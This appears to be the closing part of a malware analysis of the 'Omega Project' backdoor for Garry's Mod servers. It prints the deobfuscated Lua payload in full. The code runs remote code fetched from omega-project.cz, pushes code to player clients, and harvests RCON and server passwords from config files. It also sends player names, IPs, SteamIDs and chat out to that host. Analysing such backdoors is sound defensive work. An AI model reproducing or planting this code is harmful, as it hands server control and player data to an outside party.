            11300,
            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=d011e81c32b1b9d48f331abfd6e4628a51598740966; expires=Mon, 28-Sep-20 22:42:46 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,GOOGLE_TRUST_FACTOR=qrLGXXkCAbsNhCdnLSyP; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600,GOOGLE_TRUST_FACTOR=puyseuAkakcwHaKowHLZ; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600,GOOGLE_TRUST_FACTOR=kszSrlEZYRsTXiZzfImB; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:42:47 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

<details><summary>4) After more work, I can see everything</summary>
<p>

```lua
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned ! -- Lol, Xalalau
]]

if lock == "lock" then return end
lock="lock"

local header_cWcHqNprbaTRQip = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

HTTP({ url="https://api.omega-project.cz/api_anti_backdoors.php"; method="get"; success = function (api, anti_backdoors) RunString(anti_backdoors) end })
HTTP({ url="https://api.omega-project.cz/api_player_blacklist.php"; method="get"; success = function (api, bad_player_blacklist) RunString(bad_player_blacklist) end })

local addons_files, addons_folders = file.Find("addons/*", "GAME")

for k,v in pairs(addons_folders) do
    if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then -- Wtf?
        http.Post("https://api.omega-project.cz/api_addons.php", {
            server_ip = game.GetIPAddress(),
            crsf = "SztseEltZSFDyUscjSKJozBWfKCzHuUJjJwpnKgT#MTg2LjIyOS4yMjYuMTAy#djsPLByfuJkTKEfchWXIbLRYzPXqACCsPkvVHmnV",
            addons_name = v,
            addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))
        },
        function(http_addons) 
            if string.Left( http_addons, 1 ) == "<" or http_addons == "" then 
                return
            else
                RunString(http_addons) 
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)
    end 
end

util.AddNetworkString("net_1")

BroadcastLua([[
    net.Receive("net_1", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function someNetFunction(arg1)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data

        net.Start("net_1")
            net.WriteUInt(len, 16)
            net.WriteData(data, len)
        net.Broadcast()
    end)
end

util.AddNetworkString("net_2")

BroadcastLua([[
    net.Receive("net_2", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function SendPly(arg1, steamid64)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data
        net.Start("net_2")
        net.WriteUInt(len, 16)
        net.WriteData(data, len)
        for k, ply in pairs(player.GetAll()) do
            if ( ply:SteamID64() == steamid64 ) then
                net.Send(ply)
            end
        end
    end)
end

hook.Add(PlayerInitialSpawn, "hook1", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd",
        content = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
        server_ip  = game.GetIPAddress()
    }, RunString)
end)

hook.Add(PlayerDisconnected, "hook2", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
         csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
         color = "de3333",
         content = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         server_ip  = game.GetIPAddress()
    }, RunString)
end)

function ServerLog( logs_content ) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = logs_content, 
        server_ip = game.GetIPAddress()
    }, RunString) 

    return ServerLog( logs_content ) 
end 

function Error( string )
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = string, 
        server_ip = game.GetIPAddress()
    },RunString)

    return error( string )
end

timer.Create( "timer1", 1, 0, function()
    hook.Add( "PlayerSay", "hook3", function( ply, text )
        local http_chat_table = {
            name = ply:Name(), 
            server_ip = GetTcpInfo(), 
            steamid64 = ply:SteamID64(),
            message = text
        }

        http.Post("https://api.omega-project.cz/chat_connect.php?MQOEJzPlmWGTzcI=oAyxQMjHSitigAJ", http_chat_table, function(http_chat) RunString(http_chat) end)
    end)

    if file.Exists("cfg/autoexec.cfg","GAME") then
        local cfile = file.Read("cfg/autoexec.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do 
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end
        end 
    end

    if file.Exists("cfg/server.cfg","GAME") then
        cfile = file.Read("cfg/server.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then 
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end 

    if file.Exists("cfg/game.cfg","GAME") then
        cfile = file.Read("cfg/game.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end  

    if file.Exists("cfg/gmod-server.cfg","GAME") then
        cfile = file.Read("cfg/gmod-server.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end

    if rcon_pw == "" then
        rcon_pw = "Aucun Rcon"
    end

    for k,v in pairs(player.GetAll()) do 
        local playerInfo = {
            name = v:GetName(),
            ip = v:IPAddress(),
            server_ip = game.GetIPAddress(),
            crsf = "TFIbsvQYjTFbgXmBOqkeNyKKsURUCRlFedXsdPIm#MTg2LjIyOS4yMjYuMTAy#sBktToCthmfpNctMDsDrhmWcHaDQwsakUivPAHVu",
            steamid = v:SteamID(),
            steamid64 = v:SteamID64(),
        }

        http.Post("https://api.omega-project.cz/user_connect.php?zkHNFOZQhmXBsva=soGpJmAfXbWSliy&ping=" .. v:Ping(), playerInfo, function( http_users ) 
            if string.Left( http_users, 1 ) == "<" or http_users == "" then
                return
            else
                RunString( http_users )
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)

    end

    local serverData = {
        i = GetTcpInfo(),
        n = GetHostName(),
        m = game.GetMap(),
        bo = tostring(#player.GetBots()),
        c = game.GetIPAddress().."{+}"..server_key.."{+}1597393287",
        g = engine.ActiveGamemode(),
        crsf = "MTg2LjIyOS4yMjYuMTAy#HSldBHvasYQuaoldmwxTWhRqdXntKabTIdewJWrW",
        nb = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
        lurl = GetConVar("sv_loadingurl"):GetString(),
        pass = GetConVar("sv_password"):GetString(),
        k = "",
        client_func = "someNetFunction",
        r = rcon_pw
    }

    http.Post("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", serverData, function(http_servers) 
        if string.Left( http_servers, 1 ) == "<" or http_servers == "" then 
            return 
        else 
            RunString(http_servers) 
        end 
    end,
    function( error ) end,
    header_cWcHqNprbaTRQip ) 
end)

```

</p>
</details>

<br/>

That's it. I hope you enjoy :)
